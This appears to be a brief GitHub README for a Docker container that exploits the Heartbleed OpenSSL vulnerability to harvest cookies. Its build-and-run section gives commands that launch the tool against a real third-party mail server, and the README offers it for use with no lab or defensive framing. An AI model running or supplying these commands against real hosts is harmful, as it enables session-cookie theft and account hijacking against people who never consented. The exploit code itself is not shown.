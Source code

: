 # heartbleed-docker

A docker container to exploit heartbleed OpenSSL, and save the cookies

### Build & Run
```
docker build -t arthurnn/heartbleed .

docker run -d -p 9099:9099 arthurnn/heartbleed mail.yahoo.com
```
